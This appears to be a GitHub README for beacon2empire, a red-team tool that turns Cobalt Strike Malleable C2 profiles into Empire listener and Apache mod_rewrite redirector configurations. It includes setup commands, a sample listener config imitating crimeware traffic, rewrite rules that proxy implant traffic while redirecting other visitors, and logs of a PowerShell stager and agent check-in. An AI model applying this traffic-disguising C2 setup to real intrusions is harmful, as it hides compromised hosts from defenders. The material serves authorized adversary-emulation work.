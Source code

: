 ## beacon2empire

beacon2empire.py can be used to convert Cobalt Strike Malleable C2 profiles to matching Empire listener and Apache mod_rewrite configurations. This serves two important purposes:
- Empire C2 traffic can be made to blend in with regular network traffic.  
- The conditional mod_rewrite configuration ensures that only traffic fitting the parameters of a listener is forwarded to Empire. Everything else gets forwarded elsewhere.  

### Operation
While the proxy can be run on the same server as Empire, it is both tidier and safer to run it externally.

Edit /etc/apache2/apache.conf, changing "AllowOverride None" to "AllowOverride All":
```
<Directory /var/www/>
Options Indexes FollowSymLinks
AllowOverride All
Require all granted
</Directory>
```

Enable the rewrite and proxy modules:
```
sudo a2enmod rewrite proxy proxy_http
sudo service apache2 restart
```

The script requires 4 parameters:
- **-b:** Path containing beacon C2 profiles. Nested folders are OK as the script recurses, searching for files with the extension ".profile".  
- **-e:** Empire URL, the URL that Apache proxies Empire C2 traffic to. This must be of the format:
```
<url scheme>://<address>:<port> (e.g. http://12.34.56.789:8080)
```    
- **-p:** Proxy URL, the URL that Empire stagers connect to. This must be of the format:
```
<url scheme>://<address>:<port> (e.g. http://12.34.56.789:8080)
```
- **-r:** Redirect URL, the URL that non-Empire requests are redirected to. This must be of the format:
```
<url scheme>://<address> (e.g. https://www.google.com)
```

For example:
```
python3 convert.py -e http://12.34.56.789:8080 -p http://23.45.67.890:80 -r https://www.google.com -b /home/ubuntu/c2-profiles
```
- **C2 profile path:** /home/ubuntu/c2-profiles  
- **Empire public address:** 12.34.56.789 (bind address is always 0.0.0.0)  
- **Empire port:** 8080  
- **Proxy IP:** 23.45.67.890  
- **Proxy port:** 80  
- **Redirect URL:** https://www.google.com  

There are two outputs:
- The Empire listener configuration. Use this to start a listener in Empire.  
- The Apache mod_rewrite configuration. Place this in a .htaccess file in the root directory of your Apache server (e.g. /var/www/html).  

When testing, it can pay to tail your Apache access log to ensure that the listener and rewrite configurations line up. You should have 200's for successful hits and 302's for non-Empire traffic. If C2 traffic is hitting the wrong paths, has no user agent or isn't coming through at all - there has likely been an issue with the conversion. Known issues with client parameters are:
- "Connection" header can cause the User Agent not to be sent.  
- "Host" header can cause requests to hit "/" and be redirected instead of proxied.  

### Example
The following example uses a profile from: https://github.com/rsmudge/Malleable-C2-Profiles/blob/master/crimeware/magnitude.profile

The example uses the same parameters as presented above:
```
>python3 convert.py -e http://12.34.56.789:8080 -p http://23.45.67.890:80 -r https://www.google.com -b /home/ubuntu/c2-profiles/test
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Converting: /home/ubuntu/c2-profiles/test/magnitude.profile
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Empire configuration:
listeners
uselistener http
set Name magnitude
set BindIP 0.0.0.0
set Port 8080
set Host http://23.45.67.890:80
set DefaultJitter 50
set DefaultDelay 45
set DefaultProfile /themes/index.php,/work/1.php|Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)|Accept:image/jpeg, application/*|Referer:http://www.bankofbotswana.bw/|Accept-Encoding:gzip, deflate|Accept:text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8|Accept-Language:en-US;q=0.5,en;q=0.3|Content-Type:application/octet-stream
set Headers Server:Apache/2.2.17 (Ubuntu)|X-Powered-By:PHP/5.3.5-1ubuntu7.8|Content-Encoding:gzip|Content-Type:text/html
2020-06-20 16:07:08 blackbox beacon2empire[3508] INFO Apache rewrite configuration:
RewriteEngine On
RewriteCond %{REQUEST_URI} ^/(themes/index.php|work/1.php)/?$
RewriteCond %{HTTP_USER_AGENT} ^Mozilla/4\.0\ \(compatible;\ MSIE\ 8\.0;\ Windows\ NT\ 5\.1;\ Trident/4\.0;\ \.NET\ CLR\ 2\.0\.50727;\ \.NET\ CLR\ 3\.0\.4506\.2152;\ \.NET\ CLR\ 3\.5\.30729\)?$
RewriteRule ^.*$ http://12.34.56.789:8080%{REQUEST_URI} [P]
RewriteRule ^.*$ https://www.google.com/? [L,R=302]
```

Empire console:
```
(Empire: stager/windows/launcher_bat) >
[*] Sending POWERSHELL stager (stage 1) to 23.45.67.890
[*] New agent WXPFM9V2 checked in
[+] Initial agent WXPFM9V2 from 23.45.67.890 now active (Slack)
[*] Sending agent (stage 2) to WXPFM9V2 at 23.45.67.890
```

How staging appears in the Apache log:
```
34.56.78.90 - - [20/Jun/2020:04:14:59 +0000] "GET /work/1.php HTTP/1.1" 200 6003 "http" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:31 +0000] "POST /work/1.php HTTP/1.1" 200 532 "-" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:33 +0000] "POST /work/1.php HTTP/1.1" 200 39216 "-" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
34.56.78.90 - - [20/Jun/2020:04:15:35 +0000] "GET /work/1.php HTTP/1.1" 200 1542 "http" "Mozilla/4.0 (compatible; MSIE 8.0; Windows NT 5.1; Trident/4.0; .NET CLR 2.0.50727; .NET CLR 3.0.4506.2152; .NET CLR 3.5.30729)"
```

Whereas a request from a browser is redirected:
```
34.56.78.90 - - [20/Jun/2020:04:24:37 +0000] "GET / HTTP/1.1" 302 535 "-" "Mozilla/5.0 (Windows NT 10.0; Win64; x64; rv:77.0) Gecko/20100101 Firefox/77.0"
```

### Credit
Inspiration for this idea came from this blog post: https://thevivi.net/2017/11/03/securing-your-empire-c2-with-apache-mod_rewrite/